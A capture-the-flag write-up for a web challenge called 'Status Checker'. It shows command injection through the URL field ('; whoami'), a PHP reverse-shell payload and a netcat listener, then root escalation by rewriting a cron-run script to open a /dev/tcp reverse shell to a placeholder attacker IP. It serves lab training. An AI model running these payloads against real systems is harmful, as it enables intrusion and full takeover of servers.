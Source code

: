 We are given a site where we can check the status of websites.

Entering a valid URL such as ``https://google.com`` will return us the HTTP status code as seen in the following screenshot.

![wimg-1](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/2172799693442df396d9857becae25e70e1ca596/challenges/web/Status%20Checker/images/wimg-1.png)

Entering a semi-colon (;) will break the command. We can try to use the payload ``; whoami``  and we are returned ``www-data`` as our user as seen in the following screenshot.

![wimg-2](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-2.png)

We can attempt to spawn a reverse shell by first having netcat listen on our desired port. In this example, the port will be 45101 and the netcat command will be ``nc -nlvp 45101`` as seen in the following screenshot.

![wimg-3](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-3.png)

Once its listening on the port, we can use the following payload to spawn the reverse shell. Replace "YOUR-IP-HERE" with your IP address.

```
; php -r '$sock=fsockopen("YOUR-IP-ADDRESS",45101);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Input the above payload into the input box as seen in the following screenshot.

![wimg-4](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-4.png)

Click on the "Check HTTP Status" and observe that the website has hung. Return to the netcat session and observe that we have gotten a shell as seen in the following screenshot.

![wimg-5](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-5.png)

We can spawn an interactive shell using the command ``script -qc /bin/bash /dev/null``. Once done, we can explore the system. Navigating to the ``/var/www/`` directory and we can see 2 files.

The files are:
- backup.sh - Owned by the root user.
- my-script.sh - Owned by the www-data user.

![wimg-6](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-6.png)

We can see that the ``backup.sh`` file runs the ``my-script.sh`` file as sudo, effectively running as the root user.

Using the command ``cat /etc/crontab``, we can see that there is a cronjob that runs the ``backup.sh`` file every minute. We can abuse this by changing the contents of the ``my-script.sh`` file.

As we own the ``my-script.sh`` file, we can modify it to spawn a reverse shell using the following commands:

```
echo '#/bin/bash' > my-script.sh
echo 'bash -i >& /dev/tcp/YOUR-IP-HERE/PORT-HERE 0>&1' >> my-script.sh
```

Replace ``YOUR-IP-HERE`` with your IP address and ``PORT-HERE`` with your desired port number. Once done, start another netcat listener on the port that was chosen in the above command. In this example, it will be 45102 as seen in the following screenshot.

![wimg-7](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-7.png)


